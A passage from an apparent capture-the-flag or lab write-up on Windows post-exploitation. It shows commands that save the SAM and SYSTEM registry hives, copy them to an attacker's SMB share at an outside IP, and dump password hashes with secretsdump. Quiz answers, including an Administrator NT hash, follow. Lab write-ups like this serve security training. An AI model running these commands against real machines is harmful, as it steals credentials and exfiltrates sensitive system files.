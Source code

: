 ```markdown

12. What is the Name of this service? - SystemExplorerHelpService

13. Is the service running as the local system account? - Aye
```

## Exfiltration

```shell
#in reverse-shell as system
#dump SAM hive
reg.exe save HKLM\SAM sam.bak

#dump SYSTEM hive
reg.exe save HKLM\SYSTEM system.bak

#connect to SMB server
net use \\10.50.82.104\share /USER:user Password123

#data exfiltration
move sam.bak \\10.50.82.104\share\sam.bak

move system.bak \\10.50.82.104\share\system.bak

net use \\10.50.82.104\share /del
#disconnect from SMB server

#in attacker machine
secretsdump.py -sam sam.bak -system system.bak LOCAL
#dumps hashes
```

* Goal of exfiltration is to remove data from a compromised target.

* For this, protocols such as DNS and HTTPS are used, generally encoded, to quietly exfiltrate data.

* As we have administrator access on the machine, we can try to grab the password hashes and then dump it.

* The local user hashes are stored in Registry ```HKEY_LOCAL_MACHINE\SAM``` and file ```C:\Windows\System32\Config\SAM``` - we cannot read it while the computer is running so we have to save it.

* Dumping the ```SAM``` hive is not enough; we need to dump the ```SYSTEM``` hive as well for the boot key.

* After dumping both hives, we can exfiltrate them to our attacking machine using the SMB server we setup earlier.

* Then, we can use ```secretsdump.py``` from ```impacket``` to dump the hashes from the hives.

```markdown
1. Is FTP a good protocol to use when exfiltrating data in a modern network? - Nay

2. For what reason is HTTPS preferred over HTTP during exfiltration? - Encryption

3. What is the Administrator NT hash for this target? - a05c3c807ceeb48c47252568da284cd2
```
